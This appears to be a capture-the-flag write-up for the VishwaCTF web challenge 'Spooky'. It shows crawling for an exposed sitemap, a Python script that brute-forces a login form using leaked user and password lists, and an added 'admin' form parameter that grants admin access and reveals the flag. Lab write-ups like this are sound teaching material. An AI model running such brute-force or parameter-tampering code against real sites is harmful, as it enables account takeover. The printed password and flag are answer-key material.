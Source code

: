 # **Writeup - VishwaCTF**

* Category **WEB** <!-- challenge category -->
* Name **Spooky** <!-- challenge name -->
* Difficulty **Medium**

## Description
The challenge show us a site, and the description report that a user forgot his login credentials. The scope of the challenge was to recover the forgotten credentials.

## **Solution**
Firstly looking at the web interface there weren't clues about what to do. So to retrieve more information there were two possibilities:
* Use dirb to see if there are some useful folders to retrieve information.
* Use gospider in order to try to retrieve sitemap.xml or robots.txt 

<!-- end of the list -->

So trying the second way by executing the command:
```shell
gospider -s https://ch39763117927.ch.eng.run/ --sitemap
```
from the sitemap.xml file we discover there are two interesting files inside creds folder, namely pass.txt and user.txt, containing list of user and password of the site. At this point in order to login we bruteforce for every user in users.txt all passwords in pass.txt. It is possible to do this from script using following code
```Python
import requests  
  
url = "https://ch39763117934.ch.eng.run/"  
user_res = requests.get(f"{url}/creds/users.txt")  
users = user_res.text.strip(' \n').split('\n')  
password_res = requests.get(f"{url}/creds/pass.txt")  
passwords = password_res.text.strip(' \n').split('\n')  
correct = tuple()  
  
for user in users:  
	for password in passwords:  
		res = requests.post(f"{url}/login.php", data={"user": user, "pass": password})  
		# log print  
		print(user, password)  
		if "Incorrect" not in res.text:  
			print(res.text)  
			correct = (user, password)  
			break  
	if "Incorrect" not in res.text:  
		break
```
At this point we are logged as user shrekop, with password "VmU5gnXKYN2vLp48", but there's no flag on the page. After thinking about it, the first idea was insert an additional param ```admin='true'``` in the form in order maybe to become admin with the code lines:
```Python
res = requests.post("https://ch39763117927.ch.eng.run/login.php", data={"user": correct[0], "pass": correct[1], 'admin': 'true'})  
print(res.text)
```
This worked as the response was:
```html
<b>Logged in as </b> shrekop (admin)<script>alert('Congratulations. You got the flag!');</script><script>alert('VishwaCTF{h1dd3n_P@raMs}');</script>
```
